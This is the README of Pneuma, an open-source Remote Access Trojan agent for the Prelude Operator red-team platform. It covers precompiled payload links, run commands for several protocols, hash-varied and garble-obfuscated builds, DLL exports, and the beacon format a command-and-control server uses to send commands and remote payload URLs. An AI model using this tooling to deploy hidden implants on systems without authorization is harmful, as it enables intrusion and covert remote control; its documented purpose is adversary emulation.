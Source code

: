 # Pneuma

Pneuma is a cross-compiled [Operator](https://prelude.org) agent which can communicate over all available listening post protocols, currently gRPC, TCP, UDP and HTTP.

> This repo is for those who feel comfortable working with the inner workings of a Remote Access Trojan (RAT). If you simply need a copy of the Pneuma agent, there are precompiled versions available for [MacOS](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-darwin), [Windows](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-windows.exe) and [Linux](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-linux). You will need to mark these as executable after downloading.

This agent can be used with Operator, as designed, or pointed at any command-and-control (C2) listening post that can accept its beacon. More details on this below.

## Getting started

Clone this repository. Then ensure GoLang 1.16+ is installed before continuing.

To use the agent, install GoLang then start the agent against whichever protocol you want:

> If using a precompiled version, replace 'go run main.go' with './pneuma-windows.exe' in the below commands, replacing pneuma.exe with the name of your downloaded file.

```
go run main.go -contact tcp -address 127.0.0.1:2323
go run main.go -contact udp -address 127.0.0.1:4545
go run main.go -contact http -address http://127.0.0.1:3391
go run main.go -contact grpc -address 127.0.0.1:2513
```

Change the address field to the location of Prelude Operator, if you are running your agent on a different computer.

> gRPC relies on protocol buffers to determine the structure of the data between client <--> server (beacons).
This is statically compiled, so if anything changed in the beacon properties the following command will recompile
the buffer:
```
protoc --go_out=. --go_opt=paths=source_relative --go-grpc_out=. --go-grpc_opt=paths=source_relative beacon.proto
```

## Compile

When you are ready to use Pneuma in a real environment, you will want to compile it into a binary by running the build.sh script, passing in any string as your unique (public) randomHash string, which ensures each compiled agent gets a different file hash:
```shell
./build.sh JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA
```

On windows you can build with:

```powershell
.\build.ps1 -randomHash "JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA"
```

There is also support for garble builds (Thanks to the amazing work here: https://github.com/burrowers/garble):

```shell
GO111MODULE=on go get mvdan.cc/garble
go mod tidy
./garble-build.sh JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA
```

```powershell
GO111MODULE=on go get mvdan.cc/garble
go mod tidy
.\garble-build.ps1 -randomHash "JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA"
```

This will output a file (into the payloads directory) for each supported operating system, which you can copy to any target system and execute normally
to start the agent. 

> Before you compile, consider changing the AESKey variable inside util/conf/default.json. This value represents
> the encryption key to encrypt/decrypt communications with Prelude Operator. This key must be 32-characters
> and must match the encryption key in the Prelude Operator Emulate section. Also consider
> changing the default address parameters in main.go, so you can start your agent without command-line arguments.

## C-Shared library compilation (DLL, SO, DyLib)

Pneuma supports cross compilation to 64-bit C-shared libraries depending upon the platform you are building on. When using a C-Shared library,
you must specifically compile in the parameters you want to configure in the `util/conf/default.json` file (specifically the `address`
and the `contact` you wish you use).

We currently support:

* **Windows**: `build.ps1` and `garble-build.ps1` builds DLL
* **Darwin**: `build.sh` and `garble-build.sh` builds DLL, Dylib, SO
  * Depends on `x86_64-w64-mingw32-gcc` (Windows) and `x86_64-linux-musl-gcc` (Linux)
* **Linux**: `build.sh` and `garble-build.sh` builds DLL, Dylib, SO
  * Depends on `x86_64-w64-mingw32-gcc` (Windows) and `o64-clang` (Darwin)

To install dependencies on Darwin:
```shell
brew install mingw-w64 FiloSottile/musl-cross/musl-cross
```

To install dependencies on Linux:
```shell
# yum repos for Windows builds
yum install mingw64-gcc

# apt repos for Windows builds
apt-get install mingw64-gcc

# Darwin builds
# Follow the instructions here: https://github.com/tpoechtrager/osxcross
```

You can modify the exported functions by modifying the names of the functions in the `library/library.go` file. Default exported functions:
```go
//export VoidFunc
func VoidFunc()

//export RunAgent
func RunAgent()

//export DllInstall
func DllInstall()

//export DllRegisterServer
func DllRegisterServer()

//export DllUnregisterServer
func DllUnregisterServer()
```

## Use without Operator

While Pneuma is designed to work with Prelude Operator, as an open-source agent you can point it against any command-and-control (C2) listening post you want. To do this, follow these instructions:

- Ensure your C2 is up & accepting traffic on the same Pneuma port you want to use
- Start Pneuma, pointing it at your C2
- The C2 server will send instructions in this format which get encrypted with your KEY inside Key Management in Settings:
```
{
  ID: "067e99fb-f88f-49a8-aadc-b5cadf3438d4",
  ttp: "0b726950-11fc-4b15-a7d3-0d6e9cfdbeab",
  tactic: "discovery",
  Executor: "sh",
  Request: "whoami",
  Payload: "https://s3.amazonaws.com/operator.payloads/demo.exe",
}
```
- Your C2 will receive an encrypted string, using the KEY inside cryptic.go. Your C2 should use the same encryption key to decrypt the string, which will resolve in a JSON-object, which will contain the below structure:
```
{
  "Name": "test",
  "Target": "0.0.0.0:2323",
  "Hostname": "ubuntu-host",
  "Location": "/tmp/me.go"
  "Platform": "darwin",
  "Executors": ["sh"],
  "Range": "red",
  "Pwd": "/tmp",
  "Links": []
}
```

- Your C2 should then fill in links (instructions) for the agent to complete. Each link should have the following structure. Response, Status and Pid will be filled in by Pneuma after running the Request:
```
{
  "ID": "123",
  "Executor": "sh",
  "Payload: "",
  "Request": "whoami",
  "Response: "",
  "Status: 0,
  "Pid": 0
}
```
- Encrypt your new JSON object with the same encryption key and send it back to the agent.

This ping/pong of this beacon/JSON-object should continue on whatever periodic basis you desire. 

## CALDERA inspired

As former CALDERA leads, we wrote the MITRE Sandcat and Manx agents. Pneuma is its own thing but it shares characteristics with both of these original agents.

## Interested in contributing?

We strongly support contributors to this project. Please fork this repo and submit pull requests for considerations.

### Write your own agent

We plan on publishing an agent interface in the future, to describe how to build your own agents in any language. In the meantime, this code was written in a simplistic way to be an example for any agent you want to build.
